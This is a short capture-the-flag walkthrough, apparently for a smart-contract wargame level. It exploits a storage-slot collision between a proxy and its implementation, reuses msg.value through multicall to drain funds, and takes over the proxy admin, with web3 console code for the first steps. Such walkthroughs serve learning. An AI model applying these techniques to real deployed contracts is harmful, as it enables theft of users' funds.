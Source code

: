 ## Steps
1. Become `owner` in implementation, in order to use `addToWhitelist`:
- `owner` is slot 0 in implementation, `pendingAdmin` is slot 0 in proxy; so set attacker(`player`) as `pendingAdmin`.
### Step 1 console code
- `fnSig = {name: 'proposeNewAdmin', type: 'function', inputs: [{type: 'address', name: '_newAdmin'}]}`
- `data = web3.eth.abi.encodeFunctionCall(fnSig, [player])`
- `await web3.eth.sendTransaction({from: player, to: contract.address, data})`
- confirm with: `await contract.owner()`; should be address of attacker

2. Use `addToWhitelist` to add attacker to `whitelisted`, in order to access implementation functions; `multicall` `execute` `setMaxBalance`
### Step 2 console code
- `await contract.addToWhitelist(player)`
- confirm with `await contract.whitelisted(player)`

3. Drain all funds from the implementation, in order to use `setMaxBalance`:
- use `deposit` via `multicall`, so that `msg.value` can be reused, in order to set `balances[attacker]` to maximum
- use `execute` to withdraw all funds to attacker

4. Use `setMaxBalance` to set value of `admin` in proxy to attacker
